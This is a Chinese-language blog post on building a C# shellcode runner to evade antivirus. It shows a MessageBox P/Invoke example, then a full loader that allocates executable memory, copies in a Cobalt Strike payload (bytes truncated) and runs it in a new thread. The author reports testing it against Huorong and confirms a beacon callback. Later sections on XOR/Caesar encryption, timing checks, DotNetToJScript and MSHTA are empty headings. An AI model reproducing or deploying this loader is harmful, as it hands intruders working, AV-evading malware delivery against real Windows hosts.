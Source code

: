 layout: post
title: Options

# Shellcode Bypass AV

## 0x01.Make a shellcode runner

本文用c#来完成实现shellcode runner，首先要知道如何使用c#调用windows API，C#调用win32 API一般使用P/Invoke的方法在DLL中使用win32api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828122140.png)

比如实现一个简单的messagebox功能，要先把c的数据类型转换为c#的数据类型，完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
 class Program
 {
 [DllImport("user32.dll", CharSet = CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, 
int options);
 static void Main(string[] args)
 {
 MessageBox(IntPtr.Zero, "This is a messagebox", "This is my caption", 0);
 }
 }
}
```

实现shellcode加载器的话，首先需要三个windows API函数VirtualAlloc（主要用来实现调用进程的虚地址空间）

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828123343.png)

CreateThread（创建线程函数）

WaitForSingleObject （等待线程结束后再执行其他）具体原因后文会说

使用使用P/Invoke的方法在DLL中加入这三个windows API，然后用cobaltstrike生成c#的shellcode

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830212058.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830213005.png)

shellcode runner完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ShellcodeRunner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);
        static void Main(string[] args)
        {
            /* length: 894 bytes */
            byte[] buf = new byte[894] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0...............};

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,

IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);//让程序执行完毕shellcode后再结束
        }
    }
}
```

火绒测试一下，meterpreter的特征

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220719.png)

测试下程序运行，没有问题可以直接上线CS

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220839.png)

## 0x02.加密shellcode 

### Caesar加密

### XOR加密

## 0x03.时间判断

## 0x04.DoNetToJscript

## 0x05.MSHTA Bypass AV



